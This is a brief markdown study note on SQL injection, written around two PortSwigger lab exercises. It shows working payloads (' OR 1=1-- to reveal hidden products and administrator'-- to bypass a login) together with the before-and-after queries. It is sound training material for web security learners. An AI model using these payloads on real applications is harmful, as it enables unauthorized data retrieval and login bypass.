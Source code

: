 # SQL Injections

## Where clause allowing retrieval of data

A SQL injection may start with ' or at least in the burp suite labs the single quote is required.

The where statement is executed succesfully, after injecting the payload the released flag is ignored; this returns all of the products regardless of its' release status.

Code:
<br>`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`<br>
`SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

Payload:<br>
`filter?category=Gifts'+OR+1=1--`<br>
'+OR+1=1--

Credit:<br>
[SQL retrieve data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypass
Explantation:<br>
This payload is a more simple to understand. The username and password are used as variables in the SQL query. <br>If an application does not validiate/sanitize the input an attacker can inject their own SQL and bypass. We bypass the login by removing the password requirement.<br>

Code:<br>
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`<br>
<br>`SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`<br>
<br>Payload:
`username=administrator%27--&password=hello`<br>
Username field = "adminstrator'--"<br>
[SQL Login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
